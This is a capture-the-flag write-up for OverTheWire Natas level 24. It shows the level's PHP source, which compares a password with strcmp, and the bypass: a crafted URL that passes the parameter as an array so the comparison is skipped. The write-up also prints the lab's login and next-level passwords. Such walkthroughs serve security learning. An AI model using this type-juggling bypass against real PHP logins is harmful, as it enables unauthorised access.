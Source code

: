 # Natas Level 24
```bash
Username: natas24
Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
URL:      http://natas24.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24.png" />
    <div align="center">Natas 24</div>
</figure>

And the [source code](http://natas24.natas.labs.overthewire.org/index-source.html):
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24-view-sourcecode.png" />
    <div align="center">Natas 24 - View sourcecode</div>
</figure>

The script is:
```php
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>
```

In first look, we need to guess the secret password.

Searching for vulnerabilities in *strcmp* we found "[Array Injection](https://marcosvalle.github.io/ctf/php/2016/05/12/php-comparison-vlun.html)"

We just need to send array as the GET parameter.

[Sending](http://natas24.natas.labs.overthewire.org/?passwd[]=1&amp;passwd[]=2):
```bash
http://natas24.natas.labs.overthewire.org/?passwd[]=1&passwd[]=2
```

We get:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas24-pwned.png" />
    <div align="center">Natas 24 - PWNed</div>
</figure>

We got the password for the next level: **GHF6X7YwACaYYssHVY05cFq83hRktl4c**